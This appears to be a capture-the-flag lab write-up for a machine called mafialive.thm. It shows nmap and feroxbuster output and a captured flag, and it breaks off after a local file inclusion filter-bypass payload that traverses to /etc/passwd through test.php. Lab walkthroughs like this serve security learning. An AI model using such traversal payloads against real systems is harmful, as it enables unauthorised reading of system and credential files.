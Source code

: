 ### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### HTTP

- ferox gives this

```
301        9l       28w      313c http://10.10.172.71/images
200      320l     1270w    19188c http://10.10.172.71/index.html
301        9l       28w      312c http://10.10.172.71/pages
301        9l       28w      312c http://10.10.172.71/flags
301        9l       28w      313c http://10.10.172.71/layout
```

/flags is a meme
/pages is blank and 
/layout is blank and contains js

- found another hostname on `index`
`mafialive.thm`

On adding this entry to the `/etc/hosts` file and visiting the page we get our first flag

`http://mafialive.thm/`
`thm{f0und_th3_r1ght_h0st_n4m3}`

- Runneing ferox on `mafialive.thm` we get

```
200        3l        3w       59c http://mafialive.thm/index.html
200       15l       21w      286c http://mafialive.thm/test.php

```

- `test.php` has a button which redirects us to `http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`
- On the machine page there was a hint of `LFI` to lets try to attack that

- On trying `http://mafialive.thm/test.php?view=/home` we get this error `Sorry, Thats not allowed` maybe there is some filtering so lets start up burp

- When using this payload i am not getting an error
```
/var/www/html/development_testing/mrrobot.php/....//....//....//....//etc/passwd
```
